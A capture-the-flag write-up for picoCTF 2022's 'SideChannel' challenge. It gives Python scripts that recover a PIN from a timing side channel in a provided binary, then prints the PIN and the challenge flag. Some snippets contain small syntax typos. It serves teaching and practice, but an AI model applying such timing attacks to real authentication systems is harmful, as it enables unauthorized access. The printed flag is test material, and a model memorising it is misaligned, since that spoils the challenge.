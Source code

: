 ```yaml
---
title: "picoCTF 2022 SideChannel writeup"
date: 2022-04-08T19:16:29+08:00
description: "PicoCTF 2022 forensice problem sidechannel writeup"
---
```

## The problem
![](https://s2.loli.net/2022/04/08/y8qCUfcs6dx4WpV.png)
[link to the problem](https://play.picoctf.org/practice/challenge/298?category=4&originalEvent=70&page=1)

### Hints
1. Read about "timing-based side-channel attacks."
2. Attempting to reverse-enginner or exploit the binary won't work
3. Run the attacks against the `pin_checker` binary

## Solution

### Running the binary
A problem that would likely occur when solving this problem is running the binary.

The binary provided by picoCTF is not compatible with my local machine(Macbook).
However, the binary could be easily executed within picoCTF's webshell.

First, download the binary:
```shell
wget https://artifacts.picoctf.net/c/149/pin_checker`
chmod +x ./pin_checker #give permission to run the binary
./pin_checker #run the pin checker binary
```
A prompt for an 8 digit code should be shown:
```
Please enter your 8-digit PIN code:
11111111
8
Checking PIN...
Access denied.
```

### Timing based side channel attack
In hint 1, we can see that we're supposed to look up "timining based side channel attack"

After some digging on the internet, you'll find that timing based side channel attacks refers to the behavior of certain programs where the timing of execution based on different inputs.

Suppose the pin checking function in our pin checker is implemented as the following:
```python
def check(PIN, inp):
  if len(PIN) != len(inp):
    return False
  for i in range(len(PIN)):
    if(PIN[i]!=inp[i]]):
      return False
  return True
```
This function will execute for a longer time if the match between user input and the correct PIN is longer.

Thus, we can write a simple script to verify this vulnerbility.

```python
import time, os
TEST_COUNT = 10
LEN = 8
CHOICES = "0123456789"
prefix = ""

for c in CHOICES:
  cur = prefix+c+'0*(LEN-len(prefix)-1)
  foo = 0
  for _ in range(TEST_COUNT): # repeat TEST_COUNT times and get the average to improve accuracy
    start = time.time()
    os.system(f"echo '{cur}' | ./pin_checker > /dev/null")
    foo += (time.time()-start)
  avgtime = foo/TEST_COUNT
  print(f"{cur}: {avgtime}")
```

The results:

```
00000000: 0.23883512020111083
10000000: 0.2588793277740479
20000000: 0.25079033374786375
30000000: 0.28905391693115234
40000000: 0.4896090030670166
50000000: 0.27194507122039796
60000000: 0.24216597080230712
70000000: 0.268372631072998
80000000: 0.2515885591506958
90000000: 0.25005943775177003
```

As we can see, guesses starting with '4' takes significantly longer to execute compared to guesses starting from all the other numbers. The exploit is working.

Therefore, instead of manually testing this technique for 8 times, we could instead automate this by modifying our program.

```python
import time, os
TEST_COUNT = 4 # set this to a lower number for faster results
LEN = 8
CHOICES = "0123456789"

def check(prefix):
  mxtime = -1
  res = ''
  for c in CHOICES:
    cur = prefix+c+'0'*(LEN-len(prefix)-1)
    foo = 0
    for _ in range(TEST_COUNT): # repeat TEST_COUNT times and get the average to improve accuracy
      start = time.time()
      os.system(f"echo '{cur}' | ./pin_checker > /dev/null")
      foo += (time.time()-start)
    avgtime = foo/TEST_COUNT
    if avgtime>mxtime:
      mxtime = avgtime
      res = c
  return res


def main():
  prefix = ''
  for i in range(7):
    c = check(prefix)
    prefix+=c
    print(c)
  # Check the final number(do not hide the results)
  for c in CHOICES:
    cur = prefix+c
    print(f"------ trying {cur} --------")
    os.system(f"echo '{cur}' | ./pin_checker")

main()
```

After running the program, you should see the results:
```
4
8
3
9
0
5
1
------ trying 48390510 --------
Please enter your 8-digit PIN code:
8
Checking PIN...
Access denied.

...

------ trying 48390513 --------
Please enter your 8-digit PIN code:
8
Checking PIN...
Access granted. You may use your PIN to log into the master server.

... 

------ trying 48390519 --------
Please enter your 8-digit PIN code:
8
Checking PIN...
Access denied.
```
When checking for the pin `48390513`, "access granted" as shown.
Finally, we can take the pin, and get the flag from the server.
```shell
echo 48390513 | nc saturn.picoctf.net 53932
```

The results:

```
Verifying that you are a human...
Please enter the master PIN code:
Password correct. Here's your flag:
picoCTF{t1m1ng_4tt4ck_18704dda}
```
thus the flag is `picoCTF{t1m1ng_4tt4ck_18704dda}`
